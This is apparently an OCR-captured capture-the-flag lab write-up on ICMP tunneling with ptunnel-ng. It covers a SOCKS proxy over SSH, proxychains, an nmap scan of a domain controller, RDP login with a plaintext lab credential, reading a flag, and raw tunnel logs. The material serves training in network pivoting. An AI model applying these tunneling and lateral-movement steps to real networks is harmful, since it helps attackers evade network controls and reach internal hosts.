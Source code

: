 #### **Step 6: Setup Dynamic Port Forwarding**
```bash
# Establish SOCKS proxy through ICMP tunnel
ssh -D 9050 -p2222 -lubuntu 127.0.0.1

# Keep this session open for proxy
```

#### **Step 7: Configure Proxychains**
```bash
# Edit proxychains configuration (new terminal)
sudo nano /etc/proxychains4.conf

# Ensure SOCKS4 proxy is configured:
[ProxyList]
socks4 127.0.0.1 9050

# Verify configuration
tail -5 /etc/proxychains4.conf
```

#### **Step 8: Scan Internal Network**
```bash
# Scan Domain Controller through ICMP tunnel
proxychains nmap -sT -Pn 172.16.5.19 -p 3389

# Should show RDP service:
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
```

#### **Step 9: RDP to Domain Controller**
```bash
# RDP through ICMP tunnel to DC
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:'pass@123'

# Accept certificate when prompted
```

#### **Step 10: Retrieve Flag**
```cmd
# In RDP session, open Command Prompt
# Navigate to Downloads folder
cd C:\Users\victor\Downloads\

# List files
dir

# Read flag content
type flag.txt

# Submit flag content as answer
```


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[err]: Could not create ICMP socket: Operation not permitted
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.
[inf]: Incoming tunnel request from 10.10.14.18.
[inf]: Starting new session to 10.129.202.64:22 with ID 20199
[inf]: Received session close from remote peer.
[inf]: I/O:   0.00/  0.00 mb ICMP I/O/R:      248/      22/       0 Loss:  0.0%
[inf]: Starting ptunnel-ng 1.42.
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: Relaying packets from incoming TCP streams.
[err]: Could not create ICMP socket: Operation not permitted
[err]: Could not drop privileges
[inf]: No response from target